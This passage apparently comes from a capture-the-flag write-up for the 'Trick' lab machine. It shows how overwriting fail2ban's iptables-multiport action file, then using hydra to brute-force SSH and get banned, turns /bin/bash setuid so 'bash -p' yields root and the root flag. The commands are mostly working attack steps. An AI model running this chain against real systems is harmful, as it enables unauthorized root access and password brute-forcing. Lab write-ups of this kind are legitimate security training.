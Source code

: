 ```bash

[Init]

michael@trick:~$ rm -f /etc/fail2ban/action.d/iptables-multiport.conf
michael@trick:~$ mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

We can then restart the service. Then we spam ssh requests to get banned. 

```bash
$ hydra 10.10.11.166 ssh -l root -P /usr/share/wordlists/rockyou.txt.gz
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-26 11:32:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.11.166:22/
```

After 75 to 100 seconds, bash should become suid and we become root 

```bash
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
michael@trick:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
1d****************************d6
bash-5.0#
```

